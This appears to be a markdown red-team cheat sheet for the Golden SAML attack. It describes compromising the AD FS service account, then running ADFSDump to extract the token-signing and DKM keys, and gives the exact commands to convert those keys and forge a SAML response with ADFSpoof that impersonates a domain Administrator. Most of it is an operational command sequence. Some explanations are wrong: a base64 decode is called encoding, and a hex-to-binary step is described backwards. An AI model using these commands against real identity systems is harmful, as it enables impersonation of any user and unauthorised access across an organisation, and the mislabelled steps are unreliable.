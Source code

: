 # Golden SAML attack

## Tools: ADFSDump, ADFSpoof, ADFSDump-PS

### With this attack, we forge a SAML token that we can use to authenticate to ANY service we want impersonating ANY user within the corporate environment.

### To perform this attack, we’ll need the private key that signs the SAML objects (similarly to the need for the KRBTGT in a golden ticket). For this private key, we don’t need a domain admin access, we only need the AD FS user account.

### For a Golden SAML attack, we need to first compromise the AD FS service account, Then we can use tools such as ADFSDump to extract the required information:

 1) The token signing certificate and its private key

 2) The Distributed Key Manager (DKM) key from Active Directory

 3) The list of services for which the AD FS server is configured to be an identity provider

## Commands:

 - .\ADFSDump.exe (Extract the Distribution Key Manager (DKM) Private Key and the Encrypted Token Signing Key (TKS) as well as the Issuer Identifier and the Relting Party Trust Information as well)

 - cat TKSKey.txt | base64 -d > TKSKey.bin (Encode the TKS Key in base64 format)

 - cat DKMKey.txt | tr -d "-" | xxd -r -p > DKMKey.bin (Convert the DKM Key in Hex format)

 - python3 ADFSpoof.py -b TKSKey.bin DKMKey.bin -s 'ADFS_SERVER' saml2 --endpoint 'https://saml2response.domain.local/adfs/saml/ENDPOINT_URL_FOR_SAML_RESPONSE' --nameidformat 'urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress' --nameid 'Administrator@DOMAIN.LOCAL' --rpidentifier 'https://saml2response.domain.local/RELYING_PARTY_IDENTIFIER_ENDPOINT' --assertions 'SAML assertions to be included in the SAML response.'

### TIP: Refer the format in the tool documentation
